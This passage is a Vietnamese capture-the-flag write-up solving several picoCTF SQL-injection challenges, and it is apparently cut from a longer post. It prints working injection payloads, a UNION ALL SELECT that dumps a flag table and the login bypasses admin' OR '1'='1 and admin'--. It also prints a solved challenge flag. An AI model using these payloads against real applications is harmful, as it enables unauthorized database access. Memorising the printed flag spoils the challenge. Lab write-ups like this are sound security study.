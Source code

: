 BOOM, nguyên cái database lộ ra với table tên more_table có 1 cột rất sussy baka tên là flag
=> select nó thôi anh em

payload 4:
```
' UNION ALL SELECT flag, null, null from more_table --
```
flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}`

# Sql direct:
bài này giúp mình làm quen với `postgreSQL`

dùng help để đọc manual

hint bảo là 'What does a SQL database contain?'

=> có vẻ muốn mình tìm toàn bộ table của database (ví như sqlite_master của sqlite)

đọc manual hồi thì thấy lệnh `\dt`

xuất hiện table có name là `flags`

```
select * from flags;
```

hết.

# Irish-Name-Repo 1:
sqli

payload:
```
username: admin' OR '1'='1
```

# Irish-Name-Repo 2:
bài này thử username: `admin' or 1=1` thì được báo là 'sqli detected'

inspect element 1 chút thì thấy có 1 tham số khá sus
<input type="hidden" name="debug" value="0">

(hoặc bạn có thể vào burp suite post request sẽ thấy `debug=0` luôn được gửi tự động)

thử chuyển `debug=1` thì nó ra luôn cái query mà server call, từ đó tìm cách sqli

nghĩ 1 chút thì khỏi cần or 1=1 chi cho dài dòng, cứ `username: admin'--` là ok, hết.

payload:

```
username: admin'--
password: test
SQL query: SELECT * FROM users WHERE name='admin'--' AND password='test'
```
